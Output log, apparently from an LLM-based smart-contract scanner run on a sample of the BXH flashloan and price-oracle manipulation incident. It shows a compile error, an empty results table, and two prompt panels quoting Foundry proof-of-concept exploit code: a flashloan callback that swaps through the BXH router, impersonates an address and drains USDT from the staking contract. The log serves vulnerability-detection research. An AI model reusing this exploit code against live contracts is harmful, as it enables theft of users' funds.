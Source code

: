 

  .oooooo.    ooooooooo.   ooooooooooooo  .oooooo..o                                 
 d8P'  `Y8b   `888   `Y88. 8'   888   `8 d8P'    `Y8                                 
888            888   .d88'      888      Y88bo.       .ooooo.   .oooo.   ooo. .oo.   
888            888ooo88P'       888       `"Y8888o.  d88' `"Y8 `P  )88b  `888P"Y88b  
888     ooooo  888              888           `"Y88b 888        .oP"888   888   888  
`88.    .88'   888              888      oo     .d8P 888   .o8 d8(  888   888   888  
 `Y8bood8P'   o888o            o888o     8""88888P'  `Y8bod8P' `Y888""8o o888o o888o                                                        


                                                                   

[17:06:58] Loaded 10 rules                                                                                                                                                                                                                  tasks.py:119
           Traceback (most recent call last):                                                                                                                                                                                               tasks.py:126
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 90, in __init__                                                                                                          
               crytic_compile = CryticCompile(target, **kwargs)                                                                                                                                                                                         
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 131, in __init__                                                                                         
               self._compile(**kwargs)                                                                                                                                                                                                                  
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/crytic_compile.py", line 553, in _compile                                                                                         
               self._platform.compile(self, **kwargs)                                                                                                                                                                                                   
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 149, in compile                                                                                           
               targets_json = _get_targets_json(compilation_unit, self._target, **kwargs)                                                                                                                                                               
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 278, in _get_targets_json                                                                                 
               return _run_solc(                                                                                                                                                                                                                        
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/crytic_compile/platform/solc.py", line 483, in _run_solc                                                                                         
               raise InvalidCompilation(                                                                                                                                                                                                                
           crytic_compile.platform.exceptions.InvalidCompilation: /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220928 BXH - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when not using a             
           compilation framework.                                                                                                                                                                                                                       
                                                                                                                                                                                                                                                        
           During handling of the above exception, another exception occurred:                                                                                                                                                                          
                                                                                                                                                                                                                                                        
           Traceback (most recent call last):                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 124, in simple_cli                                                                                                                                              
               falcon_instance = compile_project(source_dir)                                                                                                                                                                                            
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/src/tasks.py", line 103, in compile_project                                                                                                                                         
               return falcon.Falcon(abs_path)                                                                                                                                                                                                           
             File "/home/owen/Documents/GitHub/GPTScan-Bigger-Model/.venv/lib/python3.10/site-packages/falcon/falcon.py", line 94, in __init__                                                                                                          
               raise FalconError(f"Invalid compilation: \n{str(e)}")                                                                                                                                                                                    
           falcon.exceptions.FalconError: Invalid compilation:                                                                                                                                                                                          
           /home/owen/Documents/GitHub/GPTScan-Bigger-Model/eval_data/20220928 BXH - Flashloan & Price Oracle Manipulation is a directory. Expected a Solidity file when not using a compilation framework.                                             
                                                                                                                                                                                                                                                        
           Compile failed.                                                                                                                                                                                                                  tasks.py:127
           Since the compilation is failed, some static analysis tool may not be enabled, which may cause lower precision and recall.                                                                                                       tasks.py:128
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() public {                                                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│         // Before attack need depoit first                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         // cheat.rollFork(21665464);                                                                                                                                                                                                                 │
│         // cheat.prank(0x81C63d821b7CdF70C61009A81FeF8Db5949AC0C9);                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│         // //emit log_named_decimal_uint("[Start]  VUSDT Balance Of 0x54f611135A9b88bbE23a8CF6C1310c59321F2717:", vUSDT.balanceOf(address(0x54f611135A9b88bbE23a8CF6C1310c59321F2717)), 18);                                                         │
│         // vUSDT.transfer(address(this), 5582000000000000000000);                                                                                                                                                                                    │
│         // emit log_named_decimal_uint("[Start] contract VUSDT Balance is:", vUSDT.balanceOf(address(this)), 18);                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│         // vUSDT.approve(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663, type(uint256).max);                                                                                                                                                             │
│                                                                                                                                                                                                                                                      │
│         // bxhtokenstaking.deposit(0, vUSDT.balanceOf(address(this)));                                                                                                                                                                               │
│         // emit log_named_decimal_uint("[Start] contract Despoit VUSDT ", vUSDT.balanceOf(address(this)), 18);                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│         //cheat.rollFork(21727289);                                                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Start] BXH-USDT  Pair USDT Balance is :" , usdt.balanceOf(address(0x919964B7f12A742E3D33176D7aF9094EA4152e6f)), 18);                                                                                           │
│         usdtwbnbpair.swap(3178800000000000000000000, 0 ,address(this), "0x");                                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Over] Hacker USDT Balance is :", usdt.balanceOf(address(this)), 18);                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function pancakeCall(address sender, uint256 amount0, uint256 amount1, bytes calldata data) public {                                                                                                                                             │
│         console.log("[Flashloan] received");                                                                                                                                                                                                         │
│         //approve bxh router for usdt                                                                                                                                                                                                                │
│         usdt.approve(0x6A1A6B78A57965E8EF8D1C51d92701601FA74F01, type(uint256).max);                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│         address[] memory path = new address[](2);                                                                                                                                                                                                    │
│         path[0] = address(0x55d398326f99059fF775485246999027B3197955);                                                                                                                                                                               │
│         path[1] = address(0x6D1B7b59e3fab85B7d3a3d86e505Dd8e349EA7F3);                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│         bxhRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│             usdt.balanceOf(address(this)) - 805614870582412124618,                                                                                                                                                                                   │
│             1,                                                                                                                                                                                                                                       │
│             path,                                                                                                                                                                                                                                    │
│             address(this),                                                                                                                                                                                                                           │
│             block.timestamp                                                                                                                                                                                                                          │
│         );                                                                                                                                                                                                                                           │
│         emit log_named_decimal_uint("[Flashloan] now Hacker BXH balance is :", BXH.balanceOf(address(this)), 18);                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│         usdt.transfer(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663, 805614870582412124618);                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] now bxh contract USDT balance is :", usdt.balanceOf(address(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663)), 18);                                                                                      │
│                                                                                                                                                                                                                                                      │
│         cheat.startPrank(0x4e77DF7b9cDcECeC4115e59546F3EAcBA095a89f);                                                                                                                                                                                │
│         bxhtokenstaking.deposit(0, 0);                                                                                                                                                                                                               │
│         usdt.transfer(address(this), usdt.balanceOf(address(0x4e77DF7b9cDcECeC4115e59546F3EAcBA095a89f)));                                                                                                                                           │
│         cheat.stopPrank();                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] Hacker USDT Balance is :", usdt.balanceOf(address(this)), 18);                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] bxh contract USDT Balance is :", usdt.balanceOf(address(0x27539B1DEe647b38e1B987c41C5336b1A8DcE663)), 18);                                                                                          │
│                                                                                                                                                                                                                                                      │
│         BXH.approve(0x6A1A6B78A57965E8EF8D1C51d92701601FA74F01, type(uint256).max);                                                                                                                                                                  │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         address[] memory bxh_usdtpath = new address[](2);                                                                                                                                                                                            │
│         bxh_usdtpath[0] = address(0x6D1B7b59e3fab85B7d3a3d86e505Dd8e349EA7F3);                                                                                                                                                                       │
│         bxh_usdtpath[1] = address(0x55d398326f99059fF775485246999027B3197955);                                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│         bxhRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                             │
│             BXH.balanceOf(address(this)),                                                                                                                                                                                                            │
│             1,                                                                                                                                                                                                                                       │
│             bxh_usdtpath,                                                                                                                                                                                                                            │
│             address(this),                                                                                                                                                                                                                           │
│             block.timestamp                                                                                                                                                                                                                          │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint("[Flashloan] Hacker USDT Balance is :", usdt.balanceOf(address(this)), 18);                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         uint256 swapfee = amount0 * 26 / 10000;                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│         usdt.transfer(address(0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE), amount0 + swapfee);                                                                                                                                                       │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
                      Scan Results                       
┏━━━━━━┳━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━┓
┃ Type ┃ Description ┃ Affected Files ┃ Analysis Report ┃
┡━━━━━━╇━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━┩
└──────┴─────────────┴────────────────┴─────────────────┘
                    Summary                     
┏━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Key                  ┃ Value                 ┃
┡━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━┩
│ Files                │ 1                     │
│ Contracts            │ 2                     │
│ Functions            │ 3                     │
│ Lines of Code        │ 344                   │
│ Used Time            │ 1.4088325500488281    │
│ Estimated Cost (USD) │ 0.0021780000000000002 │
└──────────────────────┴───────────────────────┘
